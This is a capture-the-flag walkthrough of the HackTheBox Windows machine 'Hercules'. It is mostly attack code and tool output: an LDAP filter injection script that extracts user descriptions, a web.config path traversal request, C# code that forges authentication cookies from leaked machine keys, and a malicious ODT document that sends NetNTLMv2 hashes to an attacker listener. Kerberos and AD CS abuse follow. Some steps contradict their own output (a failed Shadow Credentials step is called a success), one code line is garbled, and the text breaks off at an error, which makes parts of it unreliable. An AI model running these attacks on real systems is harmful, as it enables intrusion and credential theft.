

Introduction
Hercules is an Insane-difficulty Windows machine that requires extensive knowledge of Active Directory attacks and Kerberos authentication. The domain has NTLM disabled, forcing attackers to work exclusively with Kerberos. A unique defensive mechanism is an automated cleanup script that resets passwords, ACLs, and group memberships every few minutes, reverting any manual changes.
Attack Narrative
The attack path begins with LDAP filter injection to extract credentials from user description fields. Through LFI, the machineKey is obtained to forge authentication cookies and access a file upload feature. A malicious document triggers NetNTLMv2 authentication, allowing hash capture and cracking. BloodHound reveals complex group relationships, enabling certificatebased attacks (ESC3, ESC8) and RBCD exploitation. The final privilege escalation involves S4U2Self/S4U2Proxy delegation abuse to gain Domain Admin access.
Initial Reconnaissance
$ rustscan -a 10.10.11.91 --ulimit 10000 -- -sCTV -Pn
...[snip]...
Open 10.10.11.91:53
Open 10.10.11.91:88
Open 10.10.11.91:80
Open 10.10.11.91:139
Open 10.10.11.91:135
Open 10.10.11.91:389
Open 10.10.11.91:443
Open 10.10.11.91:445
Open 10.10.11.91:464
Open 10.10.11.91:593
Open 10.10.11.91:636
Open 10.10.11.91:3268
Open 10.10.11.91:3269
Open 10.10.11.91:5986
Open 10.10.11.91:9389
Open 10.10.11.91:49670
Open 10.10.11.91:49667
Open 10.10.11.91:49664
Open 10.10.11.91:49679
Open 10.10.11.91:57436
Open 10.10.11.91:65489

Hosting
10.10.11.91 dc.hercules.htb hercules.htb
Krb5 Config
[libdefaults]
default_realm = HERCULES.HTB
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true
dns_canonicalize_hostname = false
dns_lookup_realm = false
dns_lookup_kdc = true
k5login_authoritative = false
[realms]
HERCULES.HTB = {
kdc = dc.hercules.htb
admin_server = dc.hercules.htb
default_admin = hercules.htb
}
[domain_realm]
.hercules.htb = HERCULES.HTB
hercules.htb = HERCULES.HTB
User Enumeration
We enumerate domain users with Kerbrute using a 10M username list & found some usernames
$ kerbrute userenum --dc 10.10.11.91 -d hercules.htb '/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -t 100
Output:
2025/10/19 16:53:55 > [+] VALID USERNAME: admin@hercules.htb
2025/10/19 16:54:42 > [+] VALID USERNAME: administrator@hercules.htb
2025/10/19 16:54:46 > [+] VALID USERNAME: Admin@hercules.htb
2025/10/19 16:55:29 > [+] VALID USERNAME: Administrator@hercules.htb
2025/10/19 16:56:02 > [+] VALID USERNAME: auditor@hercules.htb

Let’s generate names wordlist with appended letters
$ awk ' /^[[:space:]]*$/ {next} { gsub(/^[ \t]+|[ \t]+$/,""); for(i=97;i<=122;i++) printf "%s.%c\n", $0, i }' \
/usr/share/wordlists/seclists/Usernames/Names/names.txt | tee /usr/share/wordlists/seclists/Usernames/Names/names.withletters.txt > /dev/null && echo "Created: /usr/share/wordlists/seclists/Usernames/Names/names.withletters.txt"
I’m enumerate domain users with Kerbrute against the DC
$ kerbrute userenum --dc 10.10.11.91 -d hercules.htb '/usr/share/wordlists/seclists/Usernames/Names/names.withletters.txt' -t 100

Directory Fuzzing
We brute-force web directories on the target
$ dirb https://hercules.htb

Nothing usefull overthere, but I think I can try to login at Login Page
Web Exploring
I try to login with dummy credential but it got invaild

But, If I’ll try to login with Hercules user’s (adriana.i & more), it got Login attempt fail.

Same issue like other users, I can be confirm Auditor it’s not web audit’or (also can't be with web login for now)

After the 14th try. I’ve got request denied for 30 seconds

The application may be susceptible to LDAP Filter Injection. If confirmed, this could be exploited to exfiltrate data from user object fields, including the 'Description' attribute, which may contain sensitive information.
LDAP Injection Attacks Explaining
LDAP Injection Guide: Types, Examples, Prevention
Bruteforce Username Description (LDAP-Filter-Injection - Password Spraying)
Save the script as file name passwd_spray.py via content below here:
#!/usr/bin/env python3
import requests
import string
import urllib3
import re
import time
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
HOST = "https://10.10.11.91"
VERIFY_SSL = False
SUCCESS_FLAG = "Login attempt failed"
TOKEN_REGEX = re.compile(r'name="__RequestVerificationToken"\s+type="hidden"\s+value="([^"]+)"', re.IGNORECASE)
PATH_VARIANTS = [
"login", "logiN", "logIn", "logIN", "loGin", "loGiN", "loGIn", "loGIN",
"lOgin", "lOgiN", "lOgIn", "lOgIN", "lOGin", "lOGiN", "lOGIn", "lOGIN",
"Login", "LogiN", "LogIn", "LogIN", "LoGin", "LoGiN", "LoGIn", "LoGIN",
"LOgin", "LOgiN", "LOgIn", "LOgIN", "LOGin", "LOGiN", "LOGIn", "LOGIN"
]
USER_LIST = [
"adriana.i", "angelo.o", "anthony.r", "ashley.b", "auditor", "bob.w",
"camilla.b", "clarissa.c", "elijah.m", "fernando.r", "fiona.c", "harris.d",
"heather.s", "jacob.b", "james.s", "jennifer.a", "jessica.e", "joel.c",
"johanna.f", "johnathan.j", "ken.w", "mark.s", "mikayla.a", "natalie.a",
"nate.h", "patrick.s", "ramona.l", "ray.n", "rene.s", "shae.j",
"stephanie.w", "stephen.m", "tanya.r", "taylor.m", "tish.c", "vincent.g",
"web_admin", "will.s", "winda.s", "zeke.s"
]
def fetch_csrf_token(client):
target_path = PATH_VARIANTS[0].lower()
response = client.get(f"{HOST}/{target_path}", verify=VERIFY_SSL)
match = TOKEN_REGEX.search(response.text)
return match.group(1) if match else None
def check_ldap_injection(user, desc_prefix=""):
client = requests.Session()
csrf_token = fetch_csrf_token(client)
if not csrf_token:
return False
path_variant = PATH_VARIANTS[len(desc_prefix) % len(PATH_VARIANTS)]
target_url = f"{HOST}/{path_variant}"
# Build LDAP injection payload
if desc_prefix:
# Escape special characters
escaped_desc = desc_prefix
if '*' in escaped_desc:
escaped_desc = escaped_desc.replace('*', '\\2a')
if '(' in escaped_desc:
escaped_desc = escaped_desc.replace('(', '\\28')
if ')' in escaped_desc:
escaped_desc = escaped_desc.replace(')', '\\29')
payload = f"{user}*)(description={escaped_desc}*"
else:
# Check if user has description field
payload = f"{user}*)(description=*"
encoded_payload = ''.join(f'%{byte:02X}' for byte in payload.encode('utf-8'))
form_data = {
"Username": encoded_payload,
"Password": "test",
"RememberMe": "false",
"__RequestVerificationToken": csrf_token
}
try:
response = client.post(target_url, data=form_data, verify=VERIFY_SSL, timeout=5)
return SUCCESS_FLAG in response.text
except:
return False
def extract_user_description(user):
char_set = (
string.ascii_lowercase +
string.digits +
string.ascii_uppercase +
"!@#$_*-." +
"%^&()=+[]{}|;:',<>?/`~\" \\"
)
if not check_ldap_injection(user):
return None
found_desc = ""
max_len = 50
empty_count = 0
for pos in range(max_len):
char_found = False
for ch in char_set:
current_test = found_desc + ch
print(f"Testing {user}: {current_test}", end="\r")
if check_ldap_injection(user, current_test):
found_desc += ch
char_found = True
empty_count = 0
print(f"\nFound character: '{ch}' - Current: {found_desc}")
break
time.sleep(0.01)
if not char_found:
empty_count += 1
if empty_count >= 2:
break
return found_desc if found_desc else None
def execute_enumeration():
important_users = ["web_admin", "auditor", "Administrator", "natalie.a", "ken.w"]
remaining_users = [u for u in USER_LIST if u not in important_users]
results = {}
for account in important_users + remaining_users:
print(f"\nStarting enumeration for: {account}")
extracted_data = extract_user_description(account)
if extracted_data:
results[account] = extracted_data
print(f"\n[SUCCESS] {account}: {extracted_data}")
with open("extracted_data.txt", "a") as output_file:
output_file.write(f"{account}:{extracted_data}\n")
if results:
print("\n=== FINAL RESULTS ===")
for account, data in results.items():
print(f"{account}: {data}")
else:
print("\nNo data extracted")
if __name__ == "__main__":
execute_enumeration()
Output:

Verify LDAP Credentials
I’m gonna try the password of johnathan.j with NetExec
$ nxc ldap 10.10.11.91 -u johnathan.j -p 'change*th1s_p@ssw()rd!!' -k
LDAP 10.10.11.91 389 DC [*] None (name:DC) (domain:hercules.htb)
LDAP 10.10.11.91 389 DC [-] hercules.htb\johnathan.j:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED
Cuz we fail on preauth KDC, also the login with user johnathan.j is not possible

But don’t worries about it, let’s enumerate LDAP users via Kerberos using a password list
$ nxc ldap 10.10.11.91 -u 'users.txt' -p 'change*th1s_p@ssw()rd!!' --continue-on-success -k

Local File Inclusion (LFI)
We login as ken.w in the Login Panel & got the Dashboard now!

We found 3 new message of ken.w

Details of these:


Get web.config via LFI (machineKey)
We have Path Traversal with LFI payload like this
GET /Home/Download?fileName=../../web.config HTTP/2
It targets the
/Home/Downloadfeature, which is supposed to serve files. The attacker injects../../into the fileName parameter to “climb” up two directory levels, escaping the intended download folder. The goal is to trick the server into reading the highly sensitiveweb.configfile instead of a normal file. Thisweb.configfile often contains critical information like database passwords and API keys.

Retrieves the web.config file containing sensitive configuration

We found these creds into web.config file:
decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581"
validation="HMACSHA256" validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80"
We successfully retrieved web.config ; the key finding is the machineKey.
Cookie Forgery Attack (FormsAuthenticationTicket)
We create a .NET console with a new directory named LegacyAuthConsole and put all the new project files inside it
$ dotnet new console -o LegacyAuthConsole && cd LegacyAuthConsole
Next, we run cmd like in below cuz it’ll It installs the special library we need.
$ dotnet add package AspNetCore.LegacyAuthCookieCompat --version 2.0.5
Explaination:
dotnet add package: This tells dotnet to find a package on the publicNuGetrepository (a “store” for .NET code) and add it to your project.
AspNetCore.LegacyAuthCookieCompat: This is the specific package that contains the classes for creating old-style authentication cookies. TheLegacyFormsAuthenticationTicketEncryptorclass from your C# script is inside this package.
--version 2.0.5: This pins the installation to a specific version. This guide likely found that this exact version works reliably for the exploit.
Finally, we should be restore the .NET package
$ dotnet restore
Okay, in next step we should be create the file named program.cs like below here:
using System;
using System.Web.Security;
class Program
{
static void Main(string[] args)
{
string validationKey = "EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80";
string decryptionKey = "B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581";
var issueDate = DateTime.Now;
var expiryDate = issueDate.AddHours(1);
var formsAuthenticationTicket = new FormsAuthenticationTicket(
1, // Version
"web_admin", // User name
issueDate, // Issue date
expiryDate, // Expiry date
false, // isPersistent
"Web Administrators", // User data
"/" // Cookie path
);
byte[] decryptionKeyBytes = HexUtils.HexToBinary(decryptionKey);
byte[] validationKeyBytes = HexUtils.HexToBinary(validationKey);
var legacyFormsAuthenticationTicketEncryptor = new LegacyFormsAuthenticationTicketEncryptor(
decryptionKeyBytes,
validationKeyBytes,
ShaVersion.Sha256
);
var encryptedText = legacyFormsAuthenticationsAuthenticationTicketEncryptor.Encrypt(formsAuthenticationTicket);
Console.WriteLine(encryptedText);
}
}
Execute it & we found a cookie:)
$ dotnet build && dotnet run
9C5AD4397AAFF0E6E7B08A7AA540750C789841DD30B5C7C6EEFD16F7E995F870C82CFAB6E2C79F0DF5D34CA52C4ED7F8075D319E76D8B43D168C9E0DBE4AFDADBCB4D291BE34E144713484C70F4BC74454FC8A4B16B107C531C94F2DA818160315AA8186F7E62160E30F3B6BF45663FF6003F53E233ACFB3C781C6D74A5DE0CF377134C21F00E489F51DEAE9E5BB5B667117042AAF803E55C1B6421D85AAF12FFB9D361AB786D4C055CEC16B72BEBC55F6B73555182B33F44E601B1204A7E6A0
Web Admin Portal
At the moment, we already in ken.w web session. So swap into Dashboard page & open DevTools - insert the cookie we got in before

Refresh webpage & boom…we got the web_admin user session now!

Come to Forms Page (https://hercules.htb/Home/Forms), we can see the File upload function. So hold on, let’s me explain

Summary of the Vulnerability
The provided C# code snippet shows a file upload filter that is vulnerable to an attack designed to steal NTLM authentication hashes. The core issue is that the application only validates the file extension (checking for
.odtor.docx) butfails to validate the file’s actual content.This allows an attacker to upload a maliciously crafted file—which may not be a valid document at all—as long as it has the correct extension. The goal is to get this file onto the server, where a separate process (like a document processor, a preview generator, or an administrator) will open it, triggering an outbound connection from the server to an attacker-controlled endpoint.
Example:
else { int num = 1048576; if (model.UploadedFile.get_ContentLength() >= num) { ((dynamic)(ControllerBase)this).get_ViewBag().Message = "File too large."; } else { string[] source = new string[2] { ".docx", ".odt" }; string text = > Path.GetExtension(model.UploadedFile.Get_FileName()).ToLower(); if (!source.Contains(text)) { ((dynamic)(ControllerBase)this).get_ViewBag().Message = "File type is > not supported."; } else { try { string path = $"${Guid.NewGuid()}{text}"; string text2 = Path.Combine("C:\\inetpub\\Reports\\", > Path.GetFileName(path)); model.UploadedFile.SaveAs(text2); ((dynamic)(ControllerBase)this).get_ViewBag().Success = "Thank you > for your report!"; } catch (Exception) { } } } }
File Upload
Malicious ODF File Creator : Click here to view

We should be run this script into venv (virtual environment). Also we run setup env first at all
$ python3 -m venv .venv && source .venv/bin/activate && pip install ezodf lxml
After that, we run the Bad-OOF script & set ur tun0 as listener
$ python3 Bad-OOF.py
/home/kali/Desktop/Hercules/Bad-OOF.py:29: SyntaxWarning: invalid escape sequence '\/'
/ __ )____ _____/ / / __ \/ __ \/ ____/
____ __ ____ ____ ______
/ __ )____ _____/ / / __ \/ __ \/ ____/
/ __ / __ `/ __ /_____/ / / / / / / /_
/ /_/ / /_/ / /_/ /_____/ /_/ / /_/ / __/
/_____/\__,_/\__,_/ \____/_____/_/
Create a malicious ODF document help leak NetNTLM Creds
By Richard Davy
@rd_pentest
www.secureyourit.co.uk
Please enter IP of listener: <attacker_ip>
Also we upload the bad.odt on ur path into the webpage. After upload odt file, run responder
$ responder -I tun0
Output
...[snip]...
[SMB] NTLMv2-SSP Client : 10.10.11.91
[SMB] NTLMv2-SSP Username : HERCULES\natalie.a
[SMB] NTLMv2-SSP Hash : natalie.a::HERCULES:4df295ab538779c3:5C2F30CC9F5B4AFB32F5B5B02D4AFD94:010100000000000000E308680F41DC0197FEA2A645DDF63000000000020008004900340041004D0001001E00570049004E002D0059004C003800500035004C0030004B004A005200340004003400570049004E002D0059004C003800500035004C0030004B004A00520034002E004900340041004D002E004C004F00430041004C00030014004900340041004D002E004C004F00430041004C00050014004900340041004D002E004C004F00430041004C000700080000E308680F41DC0106000400020000000800300030000000000000000000000000200000C24200BFFD70A7F789F2435475F9F5997289D609F94371531C988A0C58F416F40A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00370036000000000000000000
[*] Skipping previously captured hash for HERCULES\natalie.a
We got the natalie.a NTLM hash, also we need to use john to crack the password
$ john --wordlist=/usr/share/wordlists/rockyou.txt natalie.a_hash
We got the password of
natalie.aisPrettyprincess123!.

Bloodhound Enumeration
Lateral Movement
Initial Certificate Acquisition
We now have valid credentials for natalie.a with password Prettyprincess123!. This is our first valid domain user after cracking the NetNTLMv2 hash via the malicious ODT upload.
# Get a Kerberos TGT
$ impacket-getTGT -dc-ip 10.10.11.91 hercules.htb/natalie.a:'Prettyprincess123!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in natalie.a.ccache
$ export KRB5CCNAME=natalie.a.ccache
$ klist
Ticket cache: FILE:natalie.a.ccache
Default principal: natalie.a@HERCULES.HTB
Valid starting Expires Service principal
10/19/2025 22:07:48 10/20/2025 08:07:48 krbtgt/HERCULES.HTB@HERCULES.HTB
renew until 10/20/2025 22:06:59
$ kinit natalie.a@HERCULES.HTB
Password for natalie.a@HERCULES.HTB:
$ klist
Ticket cache: FILE:natalie.a.ccache
Default principal: natalie.a@HERCULES.HTB
Valid starting Expires Service principal
10/19/2025 22:09:28 10/20/2025 08:09:28 krbtgt/HERCULES.HTB@HERCULES.HTB
renew until 10/20/2025 22:09:17
From now on, every tool will use
pure Kerberos – NTLMis completely disabled on this domain.
Confirm Access & Enumerate SMB Shares
$ kvno cifs/dc.hercules.htb@HERCULES.HTB
cifs/dc.hercules.htb@HERCULES.HTB: kvno = 4
$ nxc smb dc.hercules.htb -u natalie.a -p 'Prettyprincess123!' -k --domain HERCULES.HTB
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB dc.hercules.htb 445 dc [+] HERCULES.HTB\natalie.a:Prettyprincess123!
$ nxc smb dc.hercules.htb -u natalie.a -p 'Prettyprincess123!' -k --domain HERCULES.HTB --shares
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB dc.hercules.htb 445 dc [+] HERCULES.HTB\natalie.a:Prettyprincess123!
SMB dc.hercules.htb 445 dc [*] Enumerated shares
SMB dc.hercules.htb 445 dc Share Permissions Remark
SMB dc.hercules.htb 445 dc ----- ----------- ------
SMB dc.hercules.htb 445 dc ADMIN$ Remote Admin
SMB dc.hercules.htb 445 dc C$ Default share
SMB dc.hercules.htb 445 dc Department READ
SMB dc.hercules.htb 445 dc IPC$ READ Remote IPC
SMB dc.hercules.htb 445 dc NETLOGON READ Logon server share
SMB dc.hercules.htb 445 dc Reports READ,WRITE
SMB dc.hercules.htb 445 dc SYSVOL READ Logon server share
SMB dc.hercules.htb 445 dc Users READ
$ nxc smb dc.hercules.htb -u natalie.a -p 'Prettyprincess123!' -k --domain HERCULES.HTB --users
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB dc.hercules.htb 445 dc [+] HERCULES.HTB\natalie.a:Prettyprincess123!
SMB dc.hercules.htb 445 dc -Username- -Last PW Set- -BadPW- -Description-
SMB dc.hercules.htb 445 dc Administrator 2025-10-17 10:49:44 0 Built-in account for administering the computer/domain
SMB dc.hercules.htb 445 dc Guest <never> 0 Built-in account for guest access to the computer/domain
SMB dc.hercules.htb 445 dc krbtgt 2024-12-04 01:39:35 0 Key Distribution Center Service Account
SMB dc.hercules.htb 445 dc taylor.m 2024-12-04 01:44:43 0
SMB dc.hercules.htb 445 dc fernando.r 2024-12-04 01:44:43 0
SMB dc.hercules.htb 445 dc james.s 2024-12-04 01:44:43 0
SMB dc.hercules.htb 445 dc anthony.r 2024-12-04 01:44:43 0
SMB dc.hercules.htb 445 dc iis_webserver$ 2024-12-04 01:44:43 0
SMB dc.hercules.htb 445 dc iis_hadesapppool$ 2024-12-04 01:44:44 0
SMB dc.hercules.htb 445 dc iis_apppoolidentity$ 2024-12-04 01:44:44 0
SMB dc.hercules.htb 445 dc iis_defaultapppool$ 2024-12-04 01:44:44 0
SMB dc.hercules.htb 445 dc auditor 2024-12-04 01:44:44 0
SMB dc.hercules.htb 445 dc vincent.g 2024-12-04 01:44:45 0
SMB dc.hercules.htb 445 dc nate.h 2024-12-04 01:44:45 0
SMB dc.hercules.htb 445 dc stephen.m 2024-12-04 01:44:45 0
SMB dc.hercules.htb 445 dc mark.s 2024-12-04 01:44:46 0
SMB dc.hercules.htb 445 dc elijah.m 2024-12-04 01:44:46 0
SMB dc.hercules.htb 445 dc angelo.o 2024-12-04 01:44:46 0
SMB dc.hercules.htb 445 dc ashley.b 2024-12-04 01:44:46 0
SMB dc.hercules.htb 445 dc clarissa.c 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc winda.s 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc rene.s 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc will.s 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc zeke.s 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc adriana.i 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc tish.c 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc jennifer.a 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc shae.j 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc joel.c 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc jacob.b 2024-12-04 01:44:47 0
SMB dc.hercules.htb 445 dc web_admin 2024-12-04 01:44:48 0
SMB dc.hercules.htb 445 dc bob.w 2024-12-04 01:44:48 0
SMB dc.hercules.htb 445 dc ken.w 2024-12-04 01:44:48 0
SMB dc.hercules.htb 445 dc johnathan.j 2024-12-04 01:44:48 0 change*th1s_p@ssw()rd!!
SMB dc.hercules.htb 445 dc harris.d 2024-12-04 01:44:48 0
SMB dc.hercules.htb 445 dc ray.n 2024-12-04 01:44:48 0
SMB dc.hercules.htb 445 dc natalie.a 2025-10-19 14:10:13 0
SMB dc.hercules.htb 445 dc ramona.l 2024-12-04 01:44:49 0
SMB dc.hercules.htb 445 dc fiona.c 2024-12-04 01:44:49 0
SMB dc.hercules.htb 445 dc patrick.s 2024-12-04 01:44:49 0
SMB dc.hercules.htb 445 dc tanya.r 2024-12-04 01:44:49 0
SMB dc.hercules.htb 445 dc Admin 2025-10-17 12:26:46 0
SMB dc.hercules.htb 445 dc [*] Enumerated 42 local users: HERCULES
$ nxc smb dc.hercules.htb -u natalie.a -p 'Prettyprincess123!' -k --domain HERCULES.HTB --groups
SMB dc.hercules.htb 445 dc [*] x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB dc.hercules.htb 445 dc [+] HERCULES.HTB\natalie.a:Prettyprincess123!
SMB dc.hercules.htb 445 dc [-] [REMOVED] Arg moved to the ldap protocol
Let’s explore the Department share – this is where the defenders left us clues.
$ impacket-smbclient -k hercules.htb/natalie.a:'Prettyprincess123!'@dc.hercules.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# shares
ADMIN$
C$
Department
IPC$
NETLOGON
Reports
SYSVOL
Users
# use Reports
# ls
drw-rw-rw- 0 Sun Oct 19 22:22:35 2025 .
drw-rw-rw- 0 Thu Oct 9 22:56:58 2025 ..
# shares
ADMIN$
C$
Department
IPC$
NETLOGON
Reports
SYSVOL
Users
# use Department
# ls
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 .
drw-rw-rw- 0 Wed Dec 4 09:45:11 2024 ..
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 Engineering Department
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 IT
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 Recruitment
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 Security Department
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 Web Department
# cd IT
# ls
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 .
drw-rw-rw- 0 Wed Dec 4 09:45:12 2024 ..
-rw-rw-rw- 1048 Wed Dec 4 09:45:12 2024 cleanup.lnk
-rw-rw-rw- 935 Wed Dec 4 09:47:11 2024 notice.eml
# get cleanup.lnk
# get notice.eml
# exit
$ cat notice.eml
--_004_MEYP282MB3102AC3B2MEYP282MB3102AUSP_
Content-Type: multipart/alternative;
boundary="_000_MEYP282MB3102AC3E29FED8B2MEYP282MB3102AUSP_"
--_000_MEYP282MB3102AC3E2MEYP282MB3102AUSP_
Content-Type: text/plain; charset="us-ascii"
Content-Transfer-Encoding: quoted-printable
________________________________
From: Ashley Browne
Sent: Tuesday 10:17:27 AM
To: IT Support <HERCULES\IT Support@HERCULES.HTB>
Subject: Password Reset
Hey Team,
The Administration has provided a solution to much of the permission issues=
some of you have been facing.
If you are having problems changing a password, the instructions are:
1) Check AD Permissions against the user.
2) Run the shortcut provided in the share.
3) Try to reset the password again.
If all else fails, send me a message.
Regards, Ashley.
--_000_MEYP282MB3102AC3E21A33MEYP282MB3102AUSP_
Content-Type: text/html; charset="us-ascii"
Content-Transfer-Encoding: quoted-printable
notice.eml reveals a critical defense mechanism:
“There is a cleanup script that runs every few minutes and resets passwords, ACLs, group memberships…”
This means any change we make will be reverted in ~5 minutes. We must act fast or design attacks that survive the cleanup.
Critical Bypass
Use bob.w to Permanently Move stephen.m into Web Department OU
We already obtained bob.w‘s credentials via natalie.a from the LDAP filter injection phase.
$ powerview hercules.htb/bob.w@dc.hercules.htb -k --use-ldaps --dc-ip 10.10.11.91 -d --no-pass
...[snip]...
[2025-10-20 09:25:51] [ConnectionPool] LDAP added connection for domain: hercules.htb
Inside PowerView:
$ Set-DomainObjectDN -Identity stephen.m -DestinationDN 'OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb'
[2025-10-20 09:26:04] [Get-DomainObject] Using search base: DC=hercules,DC=htb
[2025-10-20 09:26:04] [Get-DomainObject] LDAP search filter: (&(1.2.840.113556.1.4.2=*)(|(samAccountName=stephen.m)(name=stephen.m)(displayName=stephen.m)(objectSid=stephen.m)(distinguishedName=stephen.m)(dnsHostName=stephen.m)(objectGUID=*stephen.m*)))
[2025-10-20 09:26:04] [Get-DomainObject] Using search base: DC=hercules,DC=htb
[2025-10-20 09:26:04] [Get-DomainObject] LDAP search filter: (&(1.2.840.113556.1.4.2=*)(distinguishedName=OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb))
[2025-10-20 09:26:04] [Set-DomainObjectDN] Modifying CN=Stephen Miller,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb object dn to OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb
[2025-10-20 09:26:04] [Set-DomainObject] Success! modified new dn for CN=Stephen Miller,OU=Security Department,OU=DCHERCULES,DC=hercules,DC=htb
This change survives the cleanup script because it does not revert OU membership — only passwords, ACLs, and group memberships.
Now stephen.m inherits the ability to have msDS-KeyCredentialLink written (Shadow Credentials) due to the Web Department OU policy.
Shadow Credentials Attack on stephen.m
$ impacket-getTGT 'HERCULES.HTB/natalie.a:Prettyprincess123!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in natalie.a.ccache
$ export KRB5CCNAME=natalie.a.ccache
$ certipy-ad shadow auto -u natalie.a@hercules.htb -k -dc-host DC.hercules.htb -account 'stephen.m'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: DC.hercules.htb.
[!] Use -debug to print a stacktrace
[*] Targeting user 'stephen.m'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f458137b68984688b5292fdb22d72e4c'
[*] Adding Key Credential with device ID 'f458137b68984688b5292fdb22d72e4c' to the Key Credentials for 'stephen.m'
[-] Could not update Key Credentials for 'stephen.m' due to insufficient access rights: 00002098: SecErr: DSID-031514B3, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
Successfully adds a Key Credential → generates stephen.m.pfx
Authenticate as stephen.m & Reset Auditor Password
$ export KRB5CCNAME=stephen.m.ccache
$ bloodyAD --host DC.hercules.htb -d hercules.htb -u 'stephen.m' -k set password Auditor 'concUxinhxan!@'
[+] Password changed successfully!
$ impacket-getTGT -dc-ip 10.10.11.91 hercules.htb/Auditor:concUxinhxan!@
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in Auditor.ccache
Access as Auditor → Grab User Flag
$ export KRB5CCNAME=Auditor.ccache
$ pwnrm -ssl -port 5986 -k -no-pass dc.hercules.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] '-target_ip' not specified, using dc.hercules.htb
[*] '-url' not specified, using https://dc.hercules.htb:5986/wsman
[*] using domain and username from ccache: HERCULES.HTB\Auditor
[*] '-spn' not specified, using HTTP/dc.hercules.htb@HERCULES.HTB
[*] '-dc-ip' not specified, using HERCULES.HTB
[*] requesting TGS for HTTP/dc.hercules.htb@HERCULES.HTB
PS C:\Users\auditor\Documents> cd ../Desktop
PS C:\Users\auditor\Desktop> dir
Directory: C:\Users\auditor\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 10/19/2025 9:32 PM 34 user.txt

Root
Auditor PrivEsc
PS C:\Users\auditor\Documents> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
PS C:\Users\auditor\Documents>
PS C:\Users\auditor\Documents> Find-InterestingDomainAcl -ResolveGUIDs -SearchBase $dn
The term 'Find-InterestingDomainAcl' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
